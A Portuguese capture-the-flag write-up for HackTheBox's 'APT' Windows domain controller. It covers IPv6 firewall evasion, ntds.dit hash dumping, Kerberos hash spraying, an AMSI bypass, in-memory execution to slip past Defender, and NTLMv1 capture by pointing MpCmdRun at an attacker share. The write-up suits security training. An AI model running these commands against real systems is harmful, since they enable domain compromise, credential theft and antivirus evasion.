


1. [Resolução da máquina **APT**](#resolução-da-máquina-apt) 1. [Máquina Insane (hackthebox.com)](#máquina-insane-hacktheboxcom) 2. [by **_JavaliMZ_** - 27/09/2021](#by-javalimz---27092021)
2. [Introdução](#introdução)
3. [Enumeração](#enumeração)
    1. [Nmap](#nmap)
        1. [Porta 80](#porta-80)
        2. [Porta 135](#porta-135)
    2. [Firewall](#firewall)
        1. [IOXIDResolver](#ioxidresolver)
    3. [Nmap](#nmap-1)
    4. [SMB](#smb)
    5. [getTGT.py](#gettgtpy)
    6. [reg.py](#regpy)
4. [Escalada de Privilégios](#escalada-de-privilégios)
    1. [winPEAS64.exe](#winpeas64exe)
        1. [Bypass-4MSI](#bypass-4msi)
            1. [_exemplo com a prórpia máquina alvo:_](#exemplo-com-a-prórpia-máquina-alvo)
        2. [Invoke-Binary](#invoke-binary)
    2. [responder](#responder)
    3. [MsCmdRun.exe](#mscmdrunexe)
    4. [Secretsdump.py](#secretsdumppy)


# Resolução da máquina **APT**

#### Máquina Insane (hackthebox.com)

#### by **_JavaliMZ_** - 27/09/2021

---

---

# Introdução

Bem-vindo para mais um writeup, desta vez uma máquina Insane! É uma máquina Windows, Em que iremos ter bastantes desafios interessantes...

-   Iremos burlar o firewall por IPv6
-   Iremos recuperar um backup.zip dentro de uma basta partilhada contendo um ntds.dit e um SYSTEM (base de dados de todo um domain controller, e seu ficheiro SYSTEM para conseguir decifrá-lo)
-   O resultado do ponte anterior será um monte de usuários e credenciais, todos eles inválidos.
-   Iremos enumerar os usuários existentes com GetNPUsers.py (Por Kerberos)
-   Iremos tentar ver se um dos hashes do ntds.dit antigo funciona com os usuários existentes que recuperamos. Esse passo terá que ser por Kerberos também porque o servidor samba está bloqueando o número de tentativas.
-   Iremos movimentar-nos remotamente pelo registo da máquina alvo onde se vai descobrir umas credenciais, com capacidade de "winrm"
-   Vamos ver que a máquina foi modificada para aceitar autenticação por NTLMv1, e que é esse o protocolo de authenticação por defeito.
-   Iremos pilhar o hash NTLMv1 de um usuário administrador ao forçar um escaneamento de virus com o windows defender a um ficheiro que vamos partilhar.
-   vamos converter o hash NTLMv1 para um hash NTLMv2 via online
-   Com as novas credenciais de administrador sem capacidade de psexec nem escrita no samba (sem nenhum shell), vamos tratar de extrair todos os hashes do DC através do protocolo DRSUAPI e DCERPC

# Enumeração

## Nmap

Como sempre, vamos começar por enumerar as portas abertas da máquina alvo...


Esta máquina tem apenas 2 portas abertas! E para não engonhar, para não ter um relatório enorme, vou ir mais direto ao assunto...

### Porta 80

O servidor web tem paginas de internet mas não se consegue entrar por ai... Apenas há uma informação de relevo, mas que nem sequer é preciso entrar pelo browser para ver isso

```powershell
whatweb http://10.10.10.213/ | sed 's/, /\n/g'

#>  http://10.10.10.213/ [200 OK] Bootstrap
#>  Country[RESERVED][ZZ]
#>  Email[sales@gigantichosting.com]
#>  HTML5
#>  HTTPServer[Microsoft-IIS/10.0]
#>  IP[10.10.10.213]
#>  JQuery
#>  Microsoft-IIS[10.0]
#>  Script[application/x-javascript,text/javascript]
#>  Title[Gigantic Hosting | Home]
```

O email pode ajudar mais tarde (sales@gigantichosting.com)...

### Porta 135

Já que o servidor Web não nos dá acesso à máquina, só ja temos mais este ponto...

```powershell
rcpclient 10.10.10.213
rcpclient 10.10.10.213 -N-U 'null' -N
rcpclient 10.10.10.213 -U 'guest' -N
rcpclient 10.10.10.213 -U 'anonymous' -N
rcpclient 10.10.10.213 -U '%'
```

Todas as tentativas de conexão falharam... e agora?! Poderíamos tentar analisar portas UDP, visto que o scan que foi feito com o NMAP foi apenas portas TCP. Mas não há portas UDP abertas. O que acontece é que as portas devem estar bloqueadas com regras de firewall.

## Firewall

Um problema comum entre os administradores de redes é que só estão habituados a trabalhar com IPv4. Pode acontecer que não liguem às regras por IPv6! É exatamente esse o ponto desta máquina. Para burlar o firewall, apenas temos de arranjar formas de descobrir o IPv6 da máquina.

Para isso, com a ajuda do serviço RPC que está aberto, podemos chamar uma função, ServerAlive2() do objecto IObjectExporter sem estar autenticado. Esse comando devolve o que é chamado de OXID resolution, que é o que indica ao cliente por que via se pode conectar aos demais objectos. As informações que nos dá é só o nome da máquina, e os seus IPs (Tanto IPv4 como o IPv6). Basicamente, é o comparado ao Ping.

-   O ping é o que permite determinar a responsividade do alvo através do protocolo ARP, e
-   IObjectExporter::ServerAlive2 é o que permite receber os IPs do alvo através do protocolo DCERPC/IOXIDResolver.

> **!!ATENÇÃO!!** Todo o parágrafo acima é para se ler de relance... Porque, eu não percebi tudo do que li, e certamente falta muita informação...

### IOXIDResolver

Para conseguir saber o IPv6, por RPC, basta usar esta ferramenta

> https://github.com/mubix/IOXIDResolver

```powershell
git clone https://github.com/mubix/IOXIDResolver
cd IOXIDResolver

python IOXIDResolver.py -t 10.10.10.213
#>  [*] Retrieving network interface of 10.10.10.213
#>  Address: apt
#>  Address: 10.10.10.213
#>  Address: dead:beef::b885:d62a:d679:573f
#>  Address: dead:beef::215

ping6 -c 1 dead:beef::b885:d62a:d679:573f
```

O ping mostra que a máquina responde. A partir de agora, vamos começar novamente do zero a enumerar a máquina.

## Nmap

```powershell
nmap -p- --open -n -Pn -6 dead:beef::b885:d62a:d679:573f -oG enumeration/allPorts-IPv6 -vvv --min-rate 5000

extractPorts enumeration/allPorts-IPv6

#>  Enumeração das portas:
#>
#>   [*]    IP Address: dead:beef::b885:d62a:d679:573f
#>   [*]    Open Ports: 53, 80, 88, 135, 389, 445, 464, 593, 636, 5985, 9389, 47001, 49664, 49665, 49666, 49667, 49669, 49670, 49673, 49685, 49693

nmap -p53,80,88,135,389,445,464,593,636,5985,9389,47001,49664,49665,49666,49667,49669,49670,49673,49685,49693 -6 dead:beef::b885:d62a:d679:573f -sC -sV -vvv -oN enumeration/nmap-a-IPv6.txt

#>  ---skipped--
#>  53/tcp    open  domain       syn-ack Simple DNS Plus
#>  80/tcp    open  http         syn-ack Microsoft IIS httpd 10.0
#>  88/tcp    open  kerberos-sec syn-ack Microsoft Windows Kerberos (server time: 2021-09-27 20:09:53Z)
#>  135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
#>  389/tcp   open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
#>  445/tcp   open  microsoft-ds syn-ack Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
#>  464/tcp   open  kpasswd5?    syn-ack
#>  593/tcp   open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
#>  636/tcp   open  ssl/ldap     syn-ack Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
#>  5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
#>  9389/tcp  open  mc-nmf       syn-ack .NET Message Framing
#>  47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
#>  49664/tcp open  msrpc        syn-ack Microsoft Windows RPC
#>  49665/tcp open  msrpc        syn-ack Microsoft Windows RPC
#>  49666/tcp open  msrpc        syn-ack Microsoft Windows RPC
#>  49667/tcp open  msrpc        syn-ack Microsoft Windows RPC
#>  49669/tcp open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
#>  49670/tcp open  msrpc        syn-ack Microsoft Windows RPC
#>  49673/tcp open  msrpc        syn-ack Microsoft Windows RPC
#>  49685/tcp open  msrpc        syn-ack Microsoft Windows RPC
#>  49693/tcp open  msrpc        syn-ack Microsoft Windows RPC
```

Agora sim! Temos informações. Parece ser um AD/DC (Active Directory / Domain Controller). E ainda sabemos o domain (htb.local)

Com essas informações, e para termos menos problemas com as diversas ferramentas por causa do IPv6, vamos colocar essas informações no /etc/hosts.

```powershell
echo -e "dead:beef::b885:d62a:d679:573f\tapt apt.htb.local htb.local" >> /etc/hosts
```

## SMB

Seguindo os passos habituais, que no meu caso é tentar obter credenciais via RPC com **"enumdomusers"**, para depois tentar um AS-REP Roasting Attack, ou até mesmo tentar esse mesmo ataque à bruta com **"kerbrute"**, não obtemos resultados conclusivos. O serviço rpc não está disponível para usuários não autenticados. E o kerbrute às escuras não encontra nada. Passamos para o serviço Samba.

```powershell
crackmapexec smb apt
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True)

crackmapexec smb apt --shares
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True)
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              [-] Error enumerating shares: SMB SessionError: 0x5b

crackmapexec smb apt --shares -u '' -p ''
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True)
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              [-] htb.local\: STATUS_ACCESS_DENIED
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              [+] Enumerated shares
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              Share           Permissions     Remark
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              -----           -----------     ------
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              backup          READ
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              IPC$                            Remote IPC
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              NETLOGON                        Logon server share
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              SYSVOL                          Logon server share
```

Até que enfim vemos algo da máquina! Uma pasta partilhada de backup... Promissor...

```powershell
smbclient \\\\apt\\backup -U '' -N
smb: \> dir

#>  ---skipped---
#>  backup.zip                          A 10650961  Thu Sep 24 08:30:32 2020

smb: \> get backup.zip


unzip backup.zip
```

O ficheiro está protegido por palavra passe... Podemos tentar romper a palavra passe por força bruta com o dicionário **_rockyou.txt_** da seguinte forma:

```powershell
zip2johh backup.zip > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
john hash --show

#>  backup.zip:iloveyousomuch::backup.zip:Active Directory/ntds.jfm, registry/SECURITY, Active Directory/ntds.dit:backup.zip

unzip backup.zip  # iloveyousomuch
```

O conteúdo do ficheiro zip é espetacular! Tem um ficheiro SYSTEM e um ficheiro ntds.nit. Com esses dois ficheiros é possível extrair todos os hashes de um Domain Controller.

```powershell
secretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL > contents/secretsdump.out
```

O output é enorme. Deve ser a simulação da GOOGLECORP ou coisa parecida LOOOL... 8005 linhas!!

```powershell
cat secretsdump.out | grep aad | awk -F ':' '{print$1}' > users
cat secretsdump.out | grep aad | awk -F ':' '{print$4}' > hashes
```

Temos agora dois ficheiros, um de users, e um de hashes. Vamos primeiro enumerar os users... Para isso, nada melhor que o kerberos para enumerar os users existentes. Vamos tentar efetuar um AS-REP Roasting Attack. Se o user existe, a resposta vai ser que o usuário não tem pre autenticação ativada, e se tivermos um hash kerberos, bem podemos tentar crackeá-lo...

```powershell
GetNPUsers.py htb.local/ -no-pass -usersfile users | grep -v "not found"
#>  [-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
#>  [-] User APT$ doesn't have UF_DONT_REQUIRE_PREAUTH set
#>  [-] User henry.vinson doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Temos 3 usuários válidos. Mas não conseguimos obter nenhum TGT. A lista de Hashes que temos poderá ter (e confirmo já que tem lol) um hash válido para 1 dos usuários. Pode estar a simular um usuário que mudou de nome mas não mudou de password. Isto pode ter facilmente verificado através de crackmapexec

```powershell
crackmapexec smb apt -u valide_users -H hashes
```

O problema é que a máquina alvo possui algo que impede ataques por força bruta ao serviço Samba! Depois de umas 50 tentativas, a máquina bloqueia o nosso IP e é preciso reiniciar a máquina...

Posto isso, podemos tentar receber um TGT com username e um HASH (ou uma password).

## getTGT.py

Existe uma outra utilidade do Impacket que se chama **getTGT.py** e que faz este serviço. O problema é que faz apenas e só uma petição. Não dá para fazer por força bruta com recurso a dicionário. Bem, isto resolve-se com bash, um **for loop** e paralelizar as petições. Depois ainda há outro problema. No output, não temos informações do nome ou do hash que está a ser usado. Para contornar isso, decidi enviar cada output em separado, e cujo o nome do ficheiro é simplesmente o hash... O output correcto informa que foi criado um ficheiro qualquer com o formato "username.ccache". Depois com um find e um grep, é fácil recuperar o hash e o seu username...

```powershell
getTGT.py -hashes :2b576acbe6bcfda7294d6bd18041b8fe htb.local/henry.vinson

#>  Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation
#>  Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)

mkdir getTGT_dir
for hash in $(cat hashes); do getTGT.py -hashes :$hash htb.local/henry.vinson > getTGT_dir/$hash &; done
cd getTGT_dir
find . -type f | xargs grep "henry"
#> ./e53d87d42adaa3ca32bdb34a876cbffb:[*] Saving ticket in henry.vinson.ccache
```

> henry.vinson:e53d87d42adaa3ca32bdb34a876cbffb

Supostamente, este ficheiro.ccache é o tal TGT que dá para usar para fazer login depois. Mas não consegui. Penso que não consegui porque op usuário não tem capacidade de "psexec". Mas não tenho a certeza porque foi a primeira vez que tentei...

vamos validar as credenciais com crackmapexec (atenção que se tem de sair da pasta o existe o nome do ficheiro igual ao hash, porque o crackmapexec prioriza nomes de ficheiros, perdi 5 minutos à conta disto looool)


## reg.py

Agora vem outra parte tricky! Não me é possível ter uma shell com evil-winrm, não tenho capacidade de escrita em nenhum recurso compartilhado. Mas ainda se pode fazer coisas... o reg.exe do windows é um programa que permite ver/alterar registos do windows pela linha de comando. É quase tão poderoso quando o regedit.exe, que é a aplicação GUI para ver/alterar os registos. Com esta máquina, descobri que o programa reg.exe tem capacidade de ver e alterar registos remotamente, para que os administradores possam trabalhar comodamente de chinelos nos seus lares loool. Fora de brincadeira, isso é bem prático para administradores, e para atacantes também =)

o reg.py, é outro recurso do Impacket, que simula uma petição do reg.exe com as credenciais e tudo isso, como se eu estivesse a executar o comando do windows devidamente autenticado... Indo direto ao que nos interessa, podemos encontrar isto:


> henry.vinson_adm:G1#Ny5@2dvht

Vamos validar com crackmapexec...

```powershell
crackmapexec smb apt -u 'henry.vinson_adm' -p 'G1#Ny5@2dvht'
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True)
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              [+] htb.local\henry.vinson_adm:G1#Ny5@2dvht
```

De referir que o crackmapexec por IPv6 (o pequeno apt que se vê, é o IPv6 que se encontra no /etc/hosts) só funciona por smb. Sempre que se tenha novas credenciais e que quisermos verificar se temos capacidade de psexec ou evil-winrm, temos de fazê-lo á mão mesmo.


# Escalada de Privilégios

Agora que temos acesso à máquina, podemos enumerar usuários locais. Com o commando **_net localgroup "Remote Management Users"_**, dá para perceber que apenas o nosso usuário actual tem permissões de psexec, ou evil-winrm. Já sabemos então que mesmo o Adminstrator local não tem capacidade de psexec ou evil-winrm.

Vou usar a ferramenta winPEAS64.exe para enumerar a máquina mais rápidamente

## winPEAS64.exe

```powershell
# kali
wget https://github.com/carlospolop/PEASS-ng/raw/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe

# Target Machine
upload /home/javali/CaptureTheFlag/HackTheBox/contents/winPEASx64.exe
.\winPEASx64.exe
#>  Program 'winPEASx64.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted software...skipped...
```

Problemas! O antivirus está ativo. É raro ver Domains Controllers com antivirus ativo por causa de rendimentos. Mas já ques está activo, temos de lidar com isso...

Para burlar o antivirus, vou usar 2 funções, que já vêm pré-carregadas no evil-winrm (assim fica fácil...)

### Bypass-4MSI

Para rodar comando estranhos no powershell, é preciso primeiro burlar uma função que existe no powershell que analisa a string antes de executar o comando. Essa função tem como nome: Interface de verificação antimalware (AMSI)

AMSI é tipo uma API que todos os programas podem usar para analisar sequências de string, e reporta como potencialmente perigoso toda e qualquer string comum em malware, virus, ect...

#### _exemplo com a prórpia máquina alvo:_


O Mimikatz é extremamente conhecido no mundo do Pentesting... E Windows Também o conhece. Existe uns scripts pelo github com o nome Invoke-Mimikatz.ps1, e que faz muitas coisinhas más ao Windows... Antes mesmo de executar o commando, o powershell envia a string para o AMSI analisar, e como Invoke-Mimikatz.ps1 é muitas vezes utilizada por black-hackers, o AMSI informa do potencial perigo e impede a sua execução. Uma das técnicas de bypass é a ofuscação:

```powershell
"Invo" + "ke-Mimi" + "katz"
#>  Invoke-Mimikatz
```

Assim já funciona. Poderiamos também ter usado base64, ou caracteres em hexadecimal, ou octal, ect, e juntar várias técnicas... Mas para coisinhas pequena, está ok... Para scripts, isto é chato de se fazer... Existe no próprio evil-winrm a função Bypass-4MSI. Os comandos adicionais podem ser encontrados se escrevermos **_menu_** diretamente na interface Evil-WinRM


Poderíamos também resolver esse problema com one-liners que se podem encontrar facilmente neste site

> https://amsi.fail/

### Invoke-Binary

Agora que temos mais liberdade no powershelll, ainda falta bypassear o Windows Defender, pois se tentar executar novamente o winPEASx64.exe, Sou barrado na mesma pelo Windows Defender... O método que iremos utilizar também está diretamente contemplado no evil-winrm e consiste em executar o binário directamente em memória RAM, sem nunca passar pelo disco rígido (terreno protegido pelo Windows Defender!). O programa que queremos executar tem de ser um programa compilado em .Net assembly, para poder ser executado directamente da RAM com essa função... Não encontrei informações de como funciona o Invoke-Binary, mas do material que vi sobre outros scripts e programs em C para fazer a mesma coisa, percebi que o programa é copiado do computador atacante diretamente para a memória RAM e é-lhe ofuscado o código, mudando nomes de funções, mudando o caminho que deveria seguir o programa, saltando em pontos diferentes da memória, ou passando por caminhos só por passar, para enganar o antivírus. Para o antivírus não reconhecer padrões no assembly.

Avançando! Com o evil-winrm, basta indicar que queremos usar essa função, passar o programa e o seus argumentos

```powershell
# Target Machine
Invoke-Binary /home/javali/CaptureTheFlag/HackTheBox/contents/winPEASx64.exe -h
Invoke-Binary /home/javali/CaptureTheFlag/HackTheBox/contents/winPEASx64.exe log=C:\Users\henry.vinson_adm\Documents\winPEAS.out
download "C:/Users/henry.vinson_adm/Documents/winPEAS.out"

# Kali
cat winPEAS.out
```



## responder

Com a última informação recolhida, a saber, a máquina usa NTLMv1 para se autenticar, podemos tentar recuperar o hash NTLMv1.

O **responder** permite fazer isso facilmente, mas temos de o preparar para que, quando obtivermos o hash, podermos decifrá-lo. O site https://crack.sh/ nos informa que podemos usar o salt 1122334455667788 gratuitamente para decifrar o NTLMv1.

Temos de configurar o nosso responder.py para especificar o nosso salt:

```powershell
which responder
locate responder.conf
cat /var/lib/dpkg/info/responder.conffiles
#>  /etc/responder/Responder.conf
sudo nano /etc/responder/Responder.conf
```


Depois de forçar o SALT a 1122334455667788 para ser enviado quando nos for solicitado durante o Challenge Responde Protocol, é só ligar o responder e esperar...

```powershell
sudo responder -I tun0 --lm -v
```

## MsCmdRun.exe

Esperar... e esperar o que? o responder simula montes de serviços de partilha e afins, e captura hashes e informações criticas de quem se conecta a nossa máquina Kali. Mas neste plano, existe um problema... Ninguém vai-nos pedir coisas...

Pois não. Ninguém vai porque é uma máquina HTB, mas mesmo assim, podemos forçar a que a máquina solicite coisas ao nosso responder, estamos ligado à máquina alvo com evil-winrm...

Mas já temos tudo o que percisamos deste usuário, portanto nem vale a pena enviar petições ao nosso responder... Mas podemos fazer com que outro usuário faça uma petição... À pouco, percisámos burlar o Windows Defender... e agora, vamos percisar dele lool. Podemos dizer ao Windows Defender para verificar a perigosidade de um arquivo noutro ponto de rede. E o usuários que irá fazer isso é um administrador...

```powershell
cd "C:\Program Files\Windows Defender"
.\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.14.21\test.txt
```

> [SMB] NTLMv1 Hash : APT$::HTB:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:1122334455667788

Recebemos o hash NTLMv1 Salteado com o Salt: 1122334455667788. Basta agora crackear isso pelo tal site...

O formato que o site pede é esse: NTHASH:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384 E vai pedir um email onde irá enviar a resposta. Vou usar um email10




Já temos o hash NTLMv1 em claro:

> APT$:d167c3238864b12f5f82feae86a7f798

```powershell
crackmapexec smb apt -u 'APT$' -H 'd167c3238864b12f5f82feae86a7f798'

#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True)
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              [+] htb.local\APT$ d167c3238864b12f5f82feae86a7f798
```

As credenciais funcionam. Mas não temos capacidade de escrita, nem de psexec, nem de evil-winrm. Sabemos que este usuário é de Domínio, visto que se fizermos um **"net users"** na máquina com o usuário henry.vinson_adm, não o vemos lá. E sabemos também que é este usuário que executou o Windows Defender. Tem que ter muitos privilégios... possivelmente não pertence ao administradores, porque não nos é possível nos connectar com evil-winrm, mas tem que pertencer a algum grupo com muitos privilégios... Sendo assim, podemos tentar extrair todos os hashes de usuários de domínio com o secretsdump.py em "Blind"...

## Secretsdump.py


Agora sim!! Temos um hash NTLM do usuário de domínio Administrator. Vamos tratar de validá-lo... e ver se temos capacidade de psexec ou assim...


Temos um shell com privilégio total sobre o Domain Controller...

Agora é só copiar as flags no HTB e está feito!!

```powershell
cd C:\
cmd /c 'dir /r /s root.txt user.txt 2>NUL'

type C:\Users\henry.vinson_adm\Desktop\user.txt
#>  6199e04eb2ad97edd89df0**********
type C:\Users\Administrator\Desktop\root.txt
#>  e3e8e265c8402b3b28d968**********
```
